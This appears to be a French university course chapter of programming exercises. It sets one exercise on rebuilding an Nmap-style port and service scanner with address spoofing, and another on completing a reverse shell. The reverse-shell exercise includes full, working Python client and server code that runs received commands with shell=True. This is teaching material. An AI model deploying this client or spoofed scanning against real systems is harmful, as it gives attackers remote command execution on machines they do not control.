\chapter{Exercices de programmation}

Au cours de cette partie, nous allons vous proposer de recoder des outils détaillés durant le cours afin que vous puissiez comprendre le fonctionnement global de ces derniers. Sachant que vous n'aurez pas le temps de recoder une application entière, nous vous proposons de ne recoder qu'une partie de l'outil en vous basant sur ce que nous avons déjà réalisé. Tout code suffisant pour être noté sera ajouté en bonus à votre note de TP. Si votre note de TP est déjà de 20, ce bonus sera basculé sur le DS.

\section{Recoder une partie de Nmap}

Comme vous l'aurez compris durant le cours, Nmap est un outil très complet. C'est pour cette raison que nous vous proposons l'exercice suivant :\\
Réaliser une usurpation d'adresse (spoof) tout en recueillant les ports ouverts d'une machine et les versions des services. En vu du peu de temps que vous avez, nous vous proposons un code que nous avons réalisé qui permet de connaître les ports ouverts et la version du service smb. Ce code n'est certes pas parfait mais vous permettra de gagner du temps dans vos recherches voir \textbf{annexe : \ref{fig:prog1}}\\
%\begin{figure}[htp!]
 % \centering
  %\setlength\figureheight{7cm}
  %\setlength\figurewidth{9cm}
  %
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Nmap/Part1.PNG}
  %\caption{Programme partie 1}
  %\label{fig:courbe-tikz}
%\end{figure}

%\begin{figure}[htp!]
%  \centering
%  \setlength\figureheight{7cm}
%  \setlength\figurewidth{9cm}
%  
\includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Nmap/Part2.PNG}
%  \caption{Programme partie 2}
%  \label{fig:courbe-tikz}
%\end{figure}

\noindent Pour vous aider, ce code est disponible sur Github via ce lien :\\
\url{https://github.com/MatthieuGouyen/scan\_port}


\section{Coder un reverse-shell}

Le second exercice que nous vous proposons est de compléter, améliorer et automatiser nos programmes client et server qui permettent un reverse-shell. Voici notre code :

\begin{center}
\begin{adjustbox}{center,caption={Code client},label={Code client},nofloat=figure}
% maybe other stuff

\setlstipython
\begin{lstlisting}
#! /usr/bin/env python3
""" Les envoies se font en bytes donc on encode les str en b"""
import socket, subprocess, os, sys
from time import sleep
host = "localhost"
port = 5555

connection_with_server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)		#creation du socket

while connection_with_server.connect_ex((host, port)) != 0 : #connexion au serveur à l'infini
	sleep(2)
																
print ("Established connection with the server on the port "+str(port))

end = ""

while end != b"end": 															#b pour bytes
	command = connection_with_server.recv(1024)
	if command.decode() == "end" :
		connection_with_server.send(command)
		end = command
		
	cmd = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)  
																				#Popen -> création d'un programme fils dans un nouveau processus
																				#subprocess.PIPE -> rediretion vers le flux standard
	if command[:2].decode() == 'cd':
		command = command.decode()								
		if os.path.exists(str(command[3:])):									#vérification du chemin
			os.chdir(str(command[3:]))											#changement de dossier
			out = b"directory changed"
	else:
		out = cmd.stdout.read() + cmd.stderr.read()	 
	connection_with_server.send(out + b"\nEnd of the results\n ")
print ("Close of the session")
connection_with_server.close()
\end{lstlisting}
% maybe other stuff
\end{adjustbox}
\end{center}

\begin{center}
\begin{adjustbox}{center,caption={Code serveur},label={Code serveur},nofloat=figure}
% maybe other stuff

\setlstipython
\begin{lstlisting}
#! /usr/bin/env python3
# Les envoies se font en bytes donc on encode les str en b
import socket
import pty

hote = 'localhost'
port = 5555

connection_main = socket.socket(socket.AF_INET, socket.SOCK_STREAM)		#création du socket
connection_main.bind((hote, port))										#connexion du socket au serveur
connection_main.listen(5)												#mode écoute
print("The server listens on the port "+str(port))

connection_with_client, infos_connection = connection_main.accept()		#ack de connexion

msg_received = ""


while msg_received != b"end" : 											#b pour bytes
	data = ''
	while data == '':
		data = input("msg to send : ")
	connection_with_client.send(data.encode())
	msg_received = connection_with_client.recv(1024)
	print(msg_received.decode())

print ("Close of the session")
connection_with_client.close()
connection_main.close()
\end{lstlisting}
% maybe other stuff
\end{adjustbox}
\end{center}

Ces deux scripts sont disponibles sur \url{https://github.com/MatthieuGouyen/Reverse}
